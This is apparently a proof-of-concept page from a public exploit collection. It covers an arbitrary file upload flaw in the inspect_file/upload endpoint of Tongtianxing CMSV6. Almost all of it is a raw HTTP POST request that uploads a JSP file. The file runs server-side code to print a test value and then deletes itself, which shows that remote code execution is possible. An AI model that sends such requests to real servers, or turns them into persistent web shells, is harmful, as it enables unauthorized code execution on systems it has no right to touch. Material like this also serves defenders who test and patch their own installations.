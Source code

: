 # tontianxing_inspect_file_fileupload
2024.4.1 @2
from: https://github.com/wy876/POC/blob/main/%E9%80%9A%E5%A4%A9%E6%98%9F-CMSV6-inspect_file-upload%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
```
POST /inspect_file/upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: */*
content-Length: 238
Content-Type: multipart/form-data;boundary=-----------------------------7db372eb000e2

-----------------------------7db372eb000e2
Content-Disposition: form-data; name="uploadFile"; filename="1.jsp"
Content-Type: application/octet-stream

<% out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
-----------------------------7db372eb000e2--
```
